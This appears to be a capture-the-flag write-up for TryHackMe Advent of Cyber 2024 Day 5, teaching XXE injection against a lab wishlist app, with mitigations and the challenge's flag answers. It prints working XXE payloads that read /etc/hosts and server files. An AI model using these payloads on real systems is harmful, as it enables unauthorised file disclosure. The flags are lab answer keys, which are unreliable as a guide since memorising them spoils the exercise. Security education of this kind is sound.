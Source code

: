 # 🎄 TryHackMe Advent of Cyber 2024 – Day 5: XXE Exploitation Challenge

## Challenge Overview 🎅

Day 5 takes us into the world of **XML External Entity (XXE) vulnerabilities**, highlighting how improper XML parsing can expose sensitive information or allow attackers to perform malicious actions. In this challenge, we exploit a vulnerability in Wareville's Christmas wishlist application, uncover hidden data, and investigate signs of possible sabotage in the development process.

## Objectives 🎯

1. Understand how XML and entities work to uncover the root cause of XXE vulnerabilities.
2. Exploit the XXE vulnerability to access restricted files.
3. Investigate and confirm suspicious modifications in the application's development history.

## Key Concepts 💡

### What is XML?
XML (eXtensible Markup Language) is a standardized way for systems to exchange structured data. Tags like `<name>` and `<address>` help organize the data into a human- and machine-readable format.

### Entities in XML
Entities act like placeholders in XML and can be used to:
- Repeat or reference internal data.
- Load external data or files using URLs.

### What is XXE?
XXE (XML External Entity) vulnerabilities occur when an XML parser fails to restrict the resolution of external entities, enabling attackers to:
- Access sensitive files (e.g., `/etc/passwd`).
- Send malicious requests to backend systems.
- Perform denial-of-service (DoS) or even remote code execution.

## Step 1: Identifying the XXE Vulnerability

### Setting Up Burp Suite
1. **Install Burp Suite:**
   - Launch Burp Suite. You can download it [here](https://portswigger.net/burp).
2. **Navigate to the Website:**
   - Open Burp's pre-configured browser and visit `http://MACHINE_IP/product.php`.
3. **Add a Product to the Wishlist:**
   - Click "Add to Wishlist" for a product, and intercept the request using Burp Suite's **Proxy** tab.

### Crafting the Payload
1. **Intercept the Request:**
   - The request sends XML like this:
     ```
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>1</product_id>
       </item>
     </wishlist>
     ```
2. **Modify the Payload:**
   - Replace the `<product_id>` tag with a reference to an external entity:
     ```
     <!--?xml version="1.0"?-->
     <!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>&payload;</product_id>
       </item>
     </wishlist>
     ```
3. **Send the Updated Request:**
   - Use Burp Suite’s **Repeater** tab to send the modified request and observe the response. The response confirms access to `/etc/hosts`, validating the XXE vulnerability.
   - 
## Step 2: Exploiting the XXE Vulnerability

### Accessing Sensitive Files
1. **Target a Specific File:**
   - Update the payload to read from `/var/www/html/wishes/`:
     ```
     <!--?xml version="1.0"?-->
     <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
     <wishlist>
       <user_id>1</user_id>
       <item>
         <product_id>&payload;</product_id>
       </item>
     </wishlist>
     ```
2. **Iterate Through Wishes:**
   - Change the file name incrementally (e.g., `wish_2.txt`, `wish_3.txt`) to discover additional wishes.

### Discovering the Flag
- On `wish_15.txt`, the response reveals:
  ```
  The product ID: Wish #15
  Name: Mayor Malware
  Address: Test
  ---------------------------------------
  Product: Waredy Cane
  Quantity: 1
  ---------------------------------------
  PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
  ```

**Answer: `THM{Brut3f0rc1n6_mY_w4y}`**

## Step 3: Investigating the Sabotage

### Accessing the CHANGELOG
1. **Navigate to the Changelog:**
   - Visit `http://MACHINE_IP/CHANGELOG` directly.
2. **Review the Entries:**
   - The changelog reveals that a recent push introduced the vulnerable XML parser code. This evidence points to potential sabotage by Mayor Malware.

**Answer: `THM{m4y0r_m4lw4r3_b4ckd00rs}`**

## Lessons Learned 🌟

### Takeaways on XXE Exploitation
1. **Understanding XML and Entities:**
   - XML is powerful for structured data exchange but can pose security risks without proper validation.
2. **How XXE Exploitation Works:**
   - Injecting malicious entities into XML allows attackers to access restricted files or interact with backend systems.

### Mitigation Strategies
1. **Disable External Entity Loading:**
   - In PHP, use `libxml_disable_entity_loader(true)` to prevent external entities from being resolved.
2. **Validate and Sanitize Input:**
   - Ensure only expected XML structures are processed, blocking references to sensitive paths like `/etc/hosts`.
3. **Conduct Regular Security Audits:**
   - Review applications for vulnerabilities before deploying them to production.

## Tools Used 🛠️

1. **[Burp Suite](https://portswigger.net/burp):** Intercepted and modified HTTP requests to identify and exploit the XXE vulnerability.
2. **XML:** Crafted payloads to exploit the vulnerability.
3. **Browser:** Accessed the application and verified exploitation outcomes.

## Final Thoughts 🎁

Day 5’s challenge demonstrated the critical importance of secure coding and validation practices. By leveraging improperly sanitized XML parsing, we accessed sensitive information and uncovered sabotage evidence. This challenge reinforced:
- The dangers of XXE vulnerabilities in real-world applications.
- The need for thorough security testing during development.
- The importance of developer awareness regarding secure coding practices.

By addressing these lessons, developers and organizations can prevent vulnerabilities like XXE from becoming a real-world threat.

## Questions and Answers

1. **What is the flag discovered after navigating through the wishes?**  
   **Answer:** `THM{Brut3f0rc1n6_mY_w4y}`

2. **What is the flag seen on the possible proof of sabotage?**  
   **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Sandboxes](day7.md)
- [More Days to Come!](README.md)
```
